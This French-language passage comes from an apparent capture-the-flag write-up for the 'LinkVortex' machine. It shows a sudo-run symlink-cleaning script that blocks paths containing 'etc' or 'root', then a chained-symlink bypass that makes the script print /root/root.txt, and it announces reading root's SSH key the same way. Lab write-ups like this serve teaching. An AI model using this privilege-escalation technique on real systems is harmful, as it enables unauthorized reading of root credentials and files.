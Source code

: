 ```bash
  LINK_TARGET=$(/usr/bin/readlink $LINK)
  if /usr/bin/echo "$LINK_TARGET" | /usr/bin/grep -Eq '(etc|root)';then
    /usr/bin/echo "! Trying to read critical files, removing link [ $LINK ] !"
    /usr/bin/unlink $LINK
  else
    /usr/bin/echo "Link found [ $LINK ] , moving it to quarantine"
    /usr/bin/mv $LINK $QUAR_DIR/
    if $CHECK_CONTENT;then
      /usr/bin/echo "Content:"
      /usr/bin/cat $QUAR_DIR/$LINK_NAME 2>/dev/null
    fi
  fi
fi
```

1ère essai :
- Creation d'un symlink n00b.png qui pointe vers /root/root.txt
- Execution du script
  - ERROR : "! Trying to read critical files, removing link [ n00b.png ] !"

On remarque que le script utilise **readlink** pour vérifier où pointe notre symlink. S'il pointe vers un fichier dans contenant dans son path "etc" ou "root" il ne le lit pas.

Pour bypasser cette protection, il suffit de créer deux symlink :
- 1er symlink : n00b pointe vers /root/root.txt
- 2ème symlink : exploit.png pointe vers n00b

Lorsqu'il vérifie où pointe le symlink exploit.png il trouve "n00b" et autorise donc sa lecture. Or, comme n00b pointe vers root.txt, le fichier s'affiche dans le terminal :

```bash
bob@linkvortex:/var/quarantined$ ln -s /root/root.txt n00b
bob@linkvortex:/var/quarantined$ ls
n00b
bob@linkvortex:/var/quarantined$ ln -s n00b exploit.png
bob@linkvortex:/var/quarantined$ ls
exploit.png  n00b
bob@linkvortex:/var/quarantined$ ls -lah
total 8.0K
drwxr-xr-x  2 bob  bob  4.0K Oct 22 22:46 .
drwxr-xr-x 14 root root 4.0K Nov 29  2024 ..
lrwxrwxrwx  1 bob  bob     4 Oct 22 22:46 exploit.png -> n00b
lrwxrwxrwx  1 bob  bob    14 Oct 22 22:45 n00b -> /root/root.txt
bob@linkvortex:/var/quarantined$ cat n00b
cat: n00b: Permission denied
bob@linkvortex:/var/quarantined$ sudo /usr/bin/bash /opt/ghost/clean_symlink.sh exploit.png
Link found [ exploit.png ] , moving it to quarantine
/usr/bin/mv: 'exploit.png' and '/var/quarantined/exploit.png' are the same file
Content:
5f3e.....aebc9
```

### Root shell
On utilise l'exploit pour lire la clé SSH de l'utilisateur root et se connecter en SSH :
